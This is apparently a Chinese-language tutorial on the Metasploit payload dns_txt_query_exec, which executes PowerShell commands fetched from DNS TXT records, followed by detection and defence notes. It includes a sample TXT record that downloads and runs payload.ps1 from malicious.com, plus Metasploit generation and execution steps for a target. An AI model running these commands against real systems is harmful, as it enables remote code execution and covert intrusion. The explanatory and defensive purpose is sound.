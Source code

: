 `cmd/windows/powershell/dns_txt_query_exec` 是 Metasploit 框架中的一种 payload，利用 DNS TXT 记录在 Windows 系统上执行命令。这种 payload 使用 PowerShell 脚本查询 DNS TXT 记录，并将记录中的内容解释为命令来执行。

### `dns_txt_query_exec` 详解

1. **概念**：
   - **DNS TXT 记录**：DNS TXT 记录用于在 DNS 中存储任意文本信息。这种记录通常用于存储 SPF（Sender Policy Framework）信息，但也可以存储其他任意文本。
   - **PowerShell**：PowerShell 是 Windows 操作系统中的一个任务自动化和配置管理框架，具有强大的脚本语言功能。
   - **命令执行**：通过解析和执行 DNS TXT 记录中的内容来执行任意命令。

2. **工作原理**：
   - `cmd/windows/powershell/dns_txt_query_exec` payload 生成一个 PowerShell 脚本，该脚本查询指定域名的 DNS TXT 记录。
   - 脚本将查询结果解释为命令并执行，从而实现远程命令执行。
   - 这种方法可以绕过一些防火墙和监控系统，因为 DNS 请求通常被认为是合法的网络活动。

3. **用途**：
   - **远程命令执行**：利用 DNS TXT 记录中的命令，在受害者系统上执行任意代码。
   - **隐蔽通信**：使用 DNS 作为通信通道，绕过网络安全设备的检测。
   - **数据泄露**：通过 DNS 请求传输数据，避免被防火墙拦截。

### 使用 `dns_txt_query_exec` 的步骤

1. **设置 DNS TXT 记录**：
   - 在受控的 DNS 服务器上创建一个包含恶意命令的 TXT 记录。例如：
     ```
     example.com TXT "powershell -NoProfile -ExecutionPolicy Bypass -Command \"Invoke-WebRequest -Uri http://malicious.com/payload.ps1 -OutFile payload.ps1; .\payload.ps1\""
     ```

2. **生成 PowerShell 脚本**：
   - 在 Metasploit 中加载 `cmd/windows/powershell/dns_txt_query_exec` payload，并设置必要的参数：
     ```sh
     use payload/cmd/windows/powershell/dns_txt_query_exec
     set DOMAIN example.com
     ```

3. **传输和执行脚本**：
   - 生成包含 DNS 查询命令的 PowerShell 脚本：
     ```sh
     generate -f ps1 -o dns_txt_query_exec.ps1
     ```
   - 将生成的 PowerShell 脚本传输到目标系统，并在 PowerShell 中执行：
     ```sh
     powershell -ExecutionPolicy Bypass -File dns_txt_query_exec.ps1
     ```

### 示例

以下是使用 `cmd/windows/powershell/dns_txt_query_exec` payload 的一般步骤：

1. **配置 Metasploit**：
   ```sh
   use payload/cmd/windows/powershell/dns_txt_query_exec
   set DOMAIN example.com
   ```

2. **生成 PowerShell 脚本**：
   ```sh
   generate -f ps1 -o dns_txt_query_exec.ps1
   ```

3. **传输和执行脚本**：
   将生成的 PowerShell 脚本传输到目标系统，并在 PowerShell 中执行：
   ```sh
   powershell -ExecutionPolicy Bypass -File dns_txt_query_exec.ps1
   ```

### 安全注意事项

- **检测和防御**：监控 DNS 请求，特别是 TXT 记录查询，以检测异常活动。
- **权限控制**：限制用户执行 PowerShell 脚本的权限，并启用 PowerShell 脚本执行策略。
- **DNS 安全**：使用 DNS 安全扩展（DNSSEC）来验证 DNS 记录的真实性，防止 DNS 污染攻击。
- **网络监控**：使用网络流量监控和入侵检测系统（IDS）来检测和阻止通过 DNS 通信的恶意活动。

### 总结

`cmd/windows/powershell/dns_txt_query_exec` 是一种利用 DNS TXT 记录在 Windows 系统上执行命令的 Metasploit payload。它通过 PowerShell 脚本查询 DNS TXT 记录，并将记录中的内容解释为命令来执行。这种方法可以绕过一些防火墙和监控系统，被攻击者用来实现远程命令执行和隐蔽通信。为了防御此类攻击，管理员应加强 DNS 请求的监控和权限控制。